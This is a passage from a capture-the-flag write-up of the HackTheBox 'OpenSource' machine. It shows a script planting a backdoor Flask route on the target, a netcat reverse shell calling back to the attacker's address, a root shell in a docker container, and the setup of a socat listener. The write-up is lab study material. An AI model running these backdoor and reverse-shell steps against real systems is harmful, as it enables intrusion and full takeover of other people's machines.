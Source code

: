 Notice that **the `eth0` interface is `172.17.0.3`**, which is a **docker container IP**.

I'm root in this **docker container**!

> Note: I also wrote a [python](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/OpenSource/exploit.py) script to automate the upload backdoor route process.

```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# python3 exploit.py
[+]Writing a backdoor flask route into current working directory...
[+]Sending a POST request to modify the /app/app/views.py in the target machine...
--------------------------------------------------
[*]Hit Ctrl+C to exit this fake shell.
[*]If you want a reverse shell to the target machine, type this, setup a netcat listener and replace the YOUR_IP and PORT:
nc <YOUR_IP> <PORT> -e /bin/sh
--------------------------------------------------
┌──(root@FakeShell)-[~/HackTheBox/OpenSource]
└─# nc 10.10.14.42 443 -e /bin/sh

┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.11.164] 45227
python3 -c "import pty;pty.spawn('/bin/sh')"
/app # whoami;hostname;id;ip a
root
cbc47de301c4
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.4/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Anyways, **let's get a stable shell via `socat`**, this makes our live easier:

**Host the `socat` binary:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:8000/) ...
```

**Setup a `socat` TTY listener:**
```
┌──(root🌸siunam)-[~/…/OpenSource/source/app/app]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/09/14 09:49:33 socat[194675] N opening character device "/dev/pts/2" for reading and writing
2022/09/14 09:49:33 socat[194675] N listening on AF=2 0.0.0.0:4444
```
